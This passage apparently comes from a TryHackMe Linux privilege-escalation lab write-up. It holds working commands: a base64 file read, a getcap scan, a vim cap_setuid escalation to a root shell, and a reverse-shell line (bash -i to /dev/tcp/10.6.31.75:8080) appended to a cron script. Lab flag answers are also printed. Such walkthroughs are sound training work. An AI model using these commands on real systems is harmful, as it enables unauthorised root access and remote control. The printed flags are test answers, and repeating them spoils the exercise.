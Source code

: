 > `./home/ubuntu/flag3.txt`

```bash
LFILE=/home/ubuntu/flag3.txt
base64 "$LFILE" | base64 --decode
```

> `THM-3847834`

## Privilege Escalation: Capabilities

| Title | IP Address |
| :---- | :---- |
| LinPrivEscCAPA | 10.10.238.25 |

```bash
getcap -r / 2>/dev/null
```

> `/home/ubuntu/view = cap_setuid+ep`

> `/home/karen/vim = cap_setuid+ep`


Using [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#capabilities)

```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

```bash
find / -type f -name flag4.txt 2>/dev/null
```

> `./home/ubuntu/flag4.txt`

```bash
cat /home/ubuntu/flag4.txt
```

> `THM-9349843`

## Privilege Escalation: Cron Jobs

```bash
cat /etc/crontab
```

| Title | IP Address |
| :---- | :---- |
| LinPrivEscCRON | 10.10.119.243 |

Append to `backup.sh`:

```bash
echo "bash -c 'exec bash -i &>/dev/tcp/10.6.31.75/8080 <&1'" >> backup.sh
```

```bash
find / -type f -name flag5.txt 2>/dev/null
```
